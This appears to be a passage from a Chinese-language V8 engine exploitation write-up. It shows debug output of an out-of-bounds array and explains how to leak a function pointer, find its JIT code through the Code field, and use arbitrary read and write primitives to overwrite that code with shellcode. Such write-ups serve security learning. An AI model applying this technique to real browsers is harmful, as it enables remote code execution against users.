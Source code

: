 ```
            
          97: 0x228b31295749 <Object map = 0x228be2d0da99>
          98: 0x228b31295771 <Object map = 0x228be2d0da99>
          99: 0x228b31295799 <Object map = 0x228be2d0da99>
     100-139: 0x228b52302321 <the_hole>
 }

======> oobArray
DebugPrint: 0x228b31286161: [JSArray]
 - map: 0x228be2d02679 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x228b18b05539 <JSArray[0]>
 - elements: 0x228b31294019 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
 - length: 8191
 - properties: 0x228b52302251 <FixedArray[0]> {
    #length: 0x228b5234ff89 <AccessorInfo> (const accessor descriptor)
 }
 - elements: 0x228b31294019 <FixedDoubleArray[5]> {
           0: 0
           1: 1
           2: 2
           3: 3
           4: 4
 }
```

那么现在可以泄漏出函数指针了，但是为什么我们要泄漏出函数指针呢？

我们来看V8里函数对象的内存结构，在其偏移为`0x30`的位置为`Code`字段，该指针加上`0x5F`的偏移为该函数JIT代码，所以如果我们泄漏出该函数指针，加上`0x30`的偏移，读到`Code`字段的值，再利用一个任意读原语，就可以读到JIT代码的指针，然后利用任意写原语，把ShellCode写进去，这样当我们调用这个函数的时候，就会执行我们的ShellCode

![IMAGE](/assets/resources/27F2B1E1CCF6F2108FA57ECDA9625E51.jpg)

